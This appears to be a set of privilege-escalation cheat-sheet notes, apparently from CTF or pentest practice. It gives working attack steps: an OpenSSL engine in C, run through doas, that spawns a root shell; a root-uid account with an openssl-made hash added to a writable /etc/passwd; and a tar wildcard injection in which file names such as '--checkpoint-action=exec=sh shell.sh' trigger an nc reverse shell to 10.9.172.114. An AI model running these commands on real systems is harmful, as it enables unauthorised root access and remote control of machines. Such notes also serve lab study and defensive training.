 doas openssl enc -in /root/root.txt

or

```c
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

simply create malicious c file complie it and run.

doas openssl req -engine ./lib.so



## privesc /etc/passwd

if user may writeable permission on /etc/passwd

create hash using openssl

    openssl passwd -1 -salt root2 root   

$1$root2$qP6XJjGSJ/b7ZfJp.GGl80

add this hash in /etc/passwd and su root2 got root

```bash
root:x:0:0:root:/root:/bin/bash
root2:$1$root2$qP6XJjGSJ/b7ZfJp.GGl80:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin

```


## Wild card tar injection privesc

https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/

if crontab runs tar * 

Exploit:

Create shell.sh put nc reverse shell and make another files callled --checkpoint=1 which shows progress msg every number record and --checlpoint-action=exec=sh shell.sh and is execute when checkpoint is reached to 1 as we given early. once executed shell.sh we got root nc shell hence crontab root runs tar.

```bash
echo "mkfifo /tmp/lhennp; nc 10.9.172.114 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
